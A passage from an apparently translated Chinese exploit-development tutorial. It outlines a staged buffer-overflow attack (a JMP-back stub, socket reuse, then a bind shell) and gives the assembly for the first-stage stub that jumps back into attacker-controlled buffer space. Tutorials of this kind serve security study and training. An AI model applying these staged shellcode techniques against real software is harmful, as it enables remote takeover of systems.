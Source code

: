 为了避免这种情况，我们的攻击计划如下:

**【第一阶段外壳代码】**利用 20 字节的空间将第一阶段外壳代码引入 JMP，返回到上面带有“A”的更大空间

**【第二阶段 shell code】**接下来，我们将学习并介绍一个套接字重用漏洞，以获得更大的空间来添加我们的最终绑定 shell。

**【第三阶段 Shellcode】**最后，在更大的篇幅内介绍一下 bind shellcode。

# 第一阶段外壳代码(JMP 背面)

在`JMP ESP`指令之后，我们将有大约 20 字节的空闲空间。我们将引入下面的一小块操作码，将我们当前的位置重定向到上面带“A”的区域:

```
**### JMP Back Opcode**
PUSH ESP                 **; Pushing the current address on the ESP** 
POP ECX                  **; Pop the current stack address on the ECX**
SUB ECX, 0x64            **; Subtract 64 from the current ECX address**
JMP ECX                  **; Jump to adjusted ECX address**
```

![](img/68fad06dabfa61de1b8297bfe70b2eda.png)

JMP 返回操作码

一旦我们跳过指令，我们将成功地跳到我们控制的“A”位置。

![](img/a615138ee284b51570f48dffd62ab8e1.png)

